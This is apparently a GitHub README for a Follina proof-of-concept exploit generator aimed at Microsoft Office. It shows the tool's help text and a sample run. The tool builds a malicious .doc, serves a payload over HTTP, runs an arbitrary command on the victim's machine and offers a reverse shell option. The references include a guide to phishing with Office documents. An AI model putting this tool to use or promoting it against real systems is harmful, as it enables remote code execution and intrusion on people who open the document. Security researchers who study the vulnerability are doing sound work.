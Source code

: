 # Follina Exploit

Follina PoC Exploit Generator!

## Usage
```bash
$ ./follina_exploit.py --help
usage: follina_exploit.py [-h] [-c COMMAND] [-o OUTPUT] [-i IP] [-p PORT]
                          [-r LHOST:LPORT]

[+] Exploit Generator for Follina

options:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Command to execute on the remote system [Default:
                        Calc]
  -o OUTPUT, --output OUTPUT
                        Name of output malicious Doc [Default: exploit.doc]
  -i IP, --ip IP        Interface to bind http server to [Default: 127.0.0.1]
  -p PORT, --port PORT  Port to start http server on [Default: 6969]
  -r LHOST:LPORT, --reverse LHOST:LPORT
                        IP and Port for reverse shell
```

```bash
$ ./follina_exploit.py
⚙ Output File: exploit.doc
⚙ Starting HTTP Server over: 127.0.0.1:6969
⚙ Command: calc.exe
📁 Staging Folder: /tmp/follina_fu9t5t6p
🐞 Wrote payload to /tmp/follina_fu9t5t6p/www/index.html
🔥 Preparing Malicious doc
🌐 Serving /tmp/follina_fu9t5t6p/www over http://127.0.0.1:6969
✔ Created Malicios Doc: /home/whokilleddb/Code/Follina/exploit.doc
```

## To-Do

- Change the document to RTF form

## References

- https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e
- https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros
